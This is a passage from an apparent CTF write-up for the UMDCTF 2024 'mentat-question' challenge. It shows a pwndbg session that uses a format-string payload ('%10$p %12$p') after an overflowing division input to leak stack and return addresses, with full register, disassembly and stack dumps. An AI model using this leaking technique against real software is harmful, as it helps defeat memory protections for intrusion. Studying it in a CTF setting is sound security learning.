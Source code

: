 We could exploit this to leak any of the known memory addresses of our binary. I chose to leak the return address for the stack frame. This could be achieved as follows:

```bash
pwndbg> break *calculate + 204
Breakpoint 1 at 0x12bb
pwndbg> r
Starting program: ~/ctfs/umdctf2024/mentat-question/mentat-question
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hello young master. What would you like today?
Division
Of course
Which numbers would you like divided?
1
4294967296
1
0
Oh, I was not aware we were using negative numbers!
Would you like to try again?
Yes %10$p %12$p
Was that a Yes 0x7fffffffd880 0x7fffffffdc09
Breakpoint 1, 0x00005555555552bb in calculate ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────
*RAX  0x21
 RBX  0x0
*RCX  0x7ffff7e96887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x0
*RDI  0x7fffffffb5f0 —▸ 0x7ffff7de4050 (funlockfile) ◂— endbr64
*RSI  0x7fffffffb710 ◂— 'Yes 0x7fffffffd880 0x7fffffffdc09'
*R8   0x21
*R9   0x7fffffffdc09 ◂— 0x34365f363878 /* 'x86_64' */
 R10  0x0
*R11  0x246
*R12  0x7fffffffd998 —▸ 0x7fffffffdc1a ◂— '~/ctfs/umdctf2024/mentat-question/mentat-question'
*R13  0x55555555530b (main) ◂— push rbp
*R14  0x555555557dd8 —▸ 0x555555555180 ◂— endbr64
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x7fffffffd850 —▸ 0x7fffffffd880 ◂— 0x1
*RSP  0x7fffffffd830 —▸ 0x55555555530b (main) ◂— push rbp
*RIP  0x5555555552bb (calculate+204) ◂— mov rax, qword ptr [rip + 0x2dbe]
────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────
 ► 0x5555555552bb <calculate+204>    mov    rax, qword ptr [rip + 0x2dbe] <stdout@GLIBC_2.2.5>
   0x5555555552c2 <calculate+211>    mov    rcx, rax
   0x5555555552c5 <calculate+214>    mov    edx, 0xa
   0x5555555552ca <calculate+219>    mov    esi, 1
   0x5555555552cf <calculate+224>    lea    rax, [rip + 0xda3]
   0x5555555552d6 <calculate+231>    mov    rdi, rax
   0x5555555552d9 <calculate+234>    call   fwrite@plt                <fwrite@plt>

   0x5555555552de <calculate+239>    mov    eax, 0
   0x5555555552e3 <calculate+244>    jmp    calculate+282                <calculate+282>

   0x5555555552e5 <calculate+246>    lea    rax, [rip + 0xd9c]
   0x5555555552ec <calculate+253>    mov    rdi, rax
─────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffd830 —▸ 0x55555555530b (main) ◂— push rbp
01:0008│-018 0x7fffffffd838 ◂— 0x100000000
02:0010│-010 0x7fffffffd840 ◂— 'Yes %10$p %12$p'
03:0018│-008 0x7fffffffd848 ◂— 0x70243231252070 /* 'p %12$p' */
```